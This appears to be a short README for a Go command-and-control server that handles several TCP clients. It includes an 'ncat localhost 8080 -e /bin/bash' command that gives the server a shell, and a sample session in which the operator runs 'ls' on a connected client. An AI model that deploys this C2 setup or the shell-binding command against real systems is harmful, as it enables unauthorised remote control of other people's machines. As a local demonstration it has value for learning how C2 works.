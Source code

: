 # Multiple TCP connections execute

An example of how to interact with specific TCP connections in your C2

## Starting the server

```go run server.go```

Start the server

## Connect a client 

```ncat localhost 8080 -e /bin/bash```

Use ncat as a client

## Interact with client

```
go run server.go 
[+] Server started on port 8080

--- Command Line Interface ---
1. List clients
2. Send message to client
3. Exit
Enter choice: 
[+] Client 1 connected

Enter choice: 2
Enter client ID: 1
Enter message: ls
Message sent to client 1

Received from client 1: README.md
Received from client 1: go.mod
Received from client 1: server.go
```